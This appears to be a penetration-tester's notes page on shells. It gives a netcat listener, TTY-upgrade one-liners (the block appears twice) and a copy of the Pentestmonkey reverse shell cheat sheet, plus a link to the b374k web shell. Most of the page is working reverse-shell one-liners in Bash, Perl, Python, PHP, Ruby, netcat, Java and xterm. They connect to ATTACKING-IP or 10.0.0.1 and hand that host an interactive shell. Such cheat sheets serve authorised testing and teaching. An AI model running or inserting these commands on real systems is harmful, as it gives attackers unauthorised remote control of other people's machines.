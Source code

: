 # Shells

Netcat Listener

```bash
nc -nlvp 4444
```



Breakout

~~~bash
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
~~~



# Pentestmonkey Reverse Shell Cheat Sheet

Source:

> http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet



### Bash

~~~bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
~~~



### PERL

~~~bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

Perl reverse shells:

http://pentestmonkey.net/tools/web-shells/perl-reverse-shell

http://www.plenz.com/reverseshell



### Python

~~~bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

### PHP

> This code assumes that the TCP connection uses file descriptor 3.  This 
> worked on my test system.  If it doesn’t work, try 4, 5, 6…

~~~bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

### Ruby

~~~bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
~~~

### Netcat

~~~bash
nc -e /bin/sh 10.0.0.1 1234
~~~

If wrong version of netcat installed: **Ippsec recommends this as it works often**
~~~bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
~~~

### Java

~~~bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
~~~

### xterm

One of the simplest forms of reverse shell is an xterm session.  The 
following command should be run on the server.  It will try to connect 
back to you (10.0.0.1) on TCP port 6001.

~~~bash
xterm -display 10.0.0.1:1
~~~
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
~~~bash
Xnest :1
~~~
You’ll need to authorise the target to connect to you (command also run on your host):
~~~bash
xhost +targetip
~~~

## Other shells

b374k web shell

https://github.com/b374k/b374k





